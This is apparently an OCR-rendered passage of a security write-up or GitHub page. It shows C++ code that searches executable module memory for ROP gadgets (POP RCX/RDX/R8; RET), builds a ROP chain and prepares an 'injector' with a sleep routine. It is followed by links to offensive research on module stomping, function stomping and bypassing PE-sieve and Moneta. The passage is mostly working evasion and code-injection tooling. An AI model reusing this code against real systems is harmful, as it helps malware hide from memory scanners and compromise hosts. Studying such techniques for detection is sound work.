 ```cpp
        LPBYTE moduleMath = (LPBYTE)moduleAddresses[moduleIndex];
        MEMORY_BASIC_INFORMATION memInfo = { 0 };

        // Query memory to know the size of the module
        while (VirtualQueryFunc((PVOID)moduleMath, &memInfo, sizeof(memInfo)) != 0) {
            if (memInfo.Protect != PAGE_EXECUTE_READ && memInfo.Protect != PAGE_EXECUTE_READWRITE) {
                moduleMath += memInfo.RegionSize;
                continue;
            }
            LPVOID gadget;

            for (UINT x = 0; x < memInfo.RegionSize; x++) {
                if (memcmpFunc(moduleMath + x, POP_RCX_RET, 2) == 0 && !found[0]) // POP RCX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 0 * 8);
                    found[0] = TRUE;
                }
                else if (memcmpFunc(moduleMath + x, POP_RDX_RET, 2) == 0 && !found[2]) // POP RDX, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 2 * 8);
                    found[2] = TRUE;
                }
                else if (memcmpFunc(moduleMath + x, POP_R8__RET, 3) == 0 && !found[4]) // POP R8, RET
                {
                    _Hton((ULONG64)moduleMath + x, ropChain, 4 * 8);
                    found[4] = TRUE;
                }
            }
            moduleMath += memInfo.RegionSize;
        }
        moduleIndex++;
    }

#ifdef _DEBUG
    printfFunc("--- Printing ROP chain\n");
    for (int kk = 1; kk <= sizeof(ropChain); kk++) {

        printfFunc("%02x", ropChain[kk - 1]);

        if (kk % 8 != 0 && kk % 4 == 0) {
            printfFunc("`");

        }
        if (kk % 8 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /*
        Now, if the chain was found, we would still need to pack everything into 
        the injector

        The size of the injector should be the number of chunks * the size of a MOV + PUSH instruction + 1 RET
    */
#define SLEEP_ROUTINE_SIZE 42
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/